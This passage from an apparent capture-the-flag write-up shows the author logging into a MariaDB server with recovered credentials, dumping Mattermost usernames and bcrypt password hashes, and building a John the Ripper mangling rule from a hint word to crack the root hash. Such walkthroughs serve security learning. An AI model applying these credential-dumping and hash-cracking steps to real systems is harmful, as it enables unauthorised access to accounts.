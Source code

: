 It seems we have the creds of the DB in `DataSource`.

So we can connect to it and do the same as in our history:

```
maildeliverer@Delivery:~$ mysql -u mmuser -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 488
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> select Username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| duomox                           | $2a$10$ehf6UdxrQX4MHIfe8ohIhe4k.IvQ89gvpg4UVjYrkonki9Vy3j9Qq |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| moi                              | $2a$10$1huj5gajGm0lofKJDwx5iOVwlxXlyts1LFfpM6YcGMiaAK7KE1Ee2 |
| one                              | $2a$10$5b5xCPsSvpVQ7Ed.LA/UnOcv7ag4FHJ1ZWV4j/VEBb9y4XBBy3ywW |
| user1234                         | $2a$10$LcxQKEkWX82gx8cIHT46tOklDQVYh.BVIfeFGH3gMMkxvyarjysqe |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| lopes                            | $2a$10$x1IJFMel6US3MUP.CdLm.eC0WAt3jx8xDt/4Mwr475H3zD3WnkwSy |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| one1                             | $2a$10$p/0e8pFihTZBHZmPb1mv6O553J5/oWythXgXYO4Zg1aDe2ZDjyCTq |
+----------------------------------+--------------------------------------------------------------+
13 rows in set (0.000 sec)
```

Let's try to crack the root account. The hint told us not to try rockyou but to
use some mangling rules on the word `PleaseSubscribe!`.

With the tool mentalist I created a mangling rule for JtR:

`root.mentalist`

```json
{"nodes": [{"attributes": [{"class_name": "StringListAttr", "kwargs": {"strings": ["PleaseSubscribe!"], "label": "String: 'PleaseSubscribe!'"}}], "type_": "base"}, {"attributes": [{"class_name": "RangeAttr", "kwargs": {"start": 0, "end": 101, "zfill": 0, "label": "Numbers: Small 0-100"}}], "type_": "Append"}], "version": "1.0"}
```
